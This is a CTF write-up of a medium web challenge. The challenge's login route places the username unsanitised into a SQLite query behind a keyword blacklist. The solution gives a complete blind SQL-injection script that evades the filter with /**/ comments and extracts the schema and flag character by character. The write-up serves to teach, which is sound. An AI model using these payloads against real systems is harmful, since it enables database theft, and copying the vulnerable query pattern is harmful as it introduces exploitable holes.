


<font size='10'>prototype</font>

24<sup>th</sup> April 2025

Challenge Author(s): `Muhammad Saad Akhtar`

Category: `Web`

Difficulty: <font color='green'>Medium</font>

<br><br>

## Solution

We get a website as follows.



Looking at the source code, whatever we enter in the input box gets parsed in via `/login` endpoint.
```python
@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username', '')

    if waf(username):
        return "SECURITY ALERT! Not so fast..."

    query = f"SELECT * FROM users WHERE username = '{username}'"
    
    result = query_db(query)

    if result:
        return "Welcome!"
    else:
        return "YOU DON'T BELONG HERE!"
```

Here, we see our username first gets parsed into the `waf` function.

```python
def waf(query):
    query = query.lower()
    blocked_words = ['where', 'in', 'order', 'regexp', 'like', ' ', 'match', 'exec', 'union', 'glob', 'join', 'hex', 'blob', 'load']
    
    for word in blocked_words:
        if word in query:
            return True
    return False
```

Here we have a blacklist of words and if we enter any of these, we get an error saying `SECURITY ALERT`.

But if we don't have any of the blacklist words as our username, then it directly gets parsed in the SQL query.

```python
query = f"SELECT * FROM users WHERE username = '{username}'"
```

So we have a clear SQL injection with some blacklisted characters.

Also, even if we have a successful query result, we don't see anything returned from the db in the output so it is a blind SQL injection.

```python
if result:
        return "Welcome!"
else:
    return "YOU DON'T BELONG HERE!"
```

The flag is in the database so looking at the `init_db.py` file, we see:
```python
import sqlite3
import random

flag = "flag{fake_flag}"
flag_table = f"flag_table_{random.randbytes(5).hex()}"
flag_column = f"flag_column_{random.randbytes(5).hex()}"

conn = sqlite3.connect('users.db')
c = conn.cursor()

c.execute('''CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT, password TEXT)''')
c.execute("INSERT INTO users (username, password) VALUES ('guest', 'supersecret')")

c.execute('''CREATE TABLE products (id INTEGER PRIMARY KEY, name TEXT, price REAL)''')
c.execute("INSERT INTO products (name, price) VALUES ('Laptop', 999.99)")
c.execute("INSERT INTO products (name, price) VALUES ('Phone', 499.99)")

c.execute(f'''CREATE TABLE {flag_table} (id INTEGER PRIMARY KEY, {flag_column} TEXT)''')
c.execute(f"INSERT INTO {flag_table} ({flag_column}) VALUES ('{flag}')")

conn.commit()
conn.close()

print("Database initialized with users, products, and flag_table.")
```

The flag's table name and column name are also randomized so we need to get those as well.

To solve the challenge I wrote the following script. Also wrote some comments to know what going on.

```python
import requests
import string
import re

# Making a character set of all possible characters
chars = string.ascii_uppercase + string.ascii_lowercase + string.digits + "(),. {}_"
output = ""

# Replace it with your own URL
URL = "http://192.168.100.24:5000/login"

# Step 1 - Dump schema
def is_length_greater_than_schema(value):
    query = f"saad'/**/OR/**/(select/**/LENGTH((SELECT/**/sql/**/FROM/**/sqlite_master/**/LIMIT/**/1/**/OFFSET/**/2)))/**/>/**/{value}/**/--/**/-"
    payload = {"username": query}
    res = requests.post(URL, data=payload)
    return "Welcome!" in res.text

# Dumping the schema first to get the flag table name and column name
def dump_schema():
    global output
    low, high = 1, 200
    while low < high:
        mid = (low + high) // 2
        if is_length_greater_than_schema(mid):
            low = mid + 1
        else:
            high = mid
    length_of_output = low
    print(f"[+] Estimated length of SQL query: {length_of_output}")

    for i in range(1, length_of_output+1):
        for j in chars:
            query = f"saad'/**/OR/**/(select/**/substr((select/**/sql/**/from/**/sqlite_master/**/LIMIT/**/1/**/OFFSET/**/2),/**/{i},/**/1)/**/)/**/=/**/'{j}'/**/--/**/-"
            data = {"username": query}
            res = requests.post(URL, data=data)
            if "Welcome" in res.text:
                output += j
                print(output)
                break

    return output

# Step 2 - Dump flag
def is_length_greater_than_flag(table_name, column_name, value):
    query = f"saad'/**/OR/**/(SELECT/**/LENGTH((SELECT/**/{column_name}/**/FROM/**/{table_name}/**/LIMIT/**/1))/**/>/**/{value})/**/--"
    payload = {"username": query}
    res = requests.post(URL, data=payload)
    return "Welcome!" in res.text

def dump_flag(table_name, column_name):
    flag_output = ""
    low, high = 1, 200
    while low < high:
        mid = (low + high) // 2
        if is_length_greater_than_flag(table_name, column_name, mid):
            low = mid + 1
        else:
            high = mid
    length_of_flag = low
    print(f"[+] Estimated length of flag: {length_of_flag}")

    for i in range(1, length_of_flag+1):
        for j in chars:
            query = f"saad'/**/OR/**/(select/**/substr((select/**/{column_name}/**/from/**/{table_name}/**/LIMIT/**/1),/**/{i},/**/1)/**/)/**/=/**/'{j}'/**/--"
            data = {"username": query}
            res = requests.post(URL, data=data)
            if "Welcome" in res.text:
                flag_output += j
                print(flag_output)
                break

    return flag_output

if __name__ == "__main__":
    print("[*] Dumping schema...")
    schema = dump_schema()
    table_name, column_name = schema[11:32], schema[53:75]
    print("[*] Dumping flag...")
    flag = dump_flag(table_name, column_name)
    print(f"[+] Flag: {flag}")
 
```



### Challenge Flag

flag{b3ing_bl1nd_1s_t0ugh}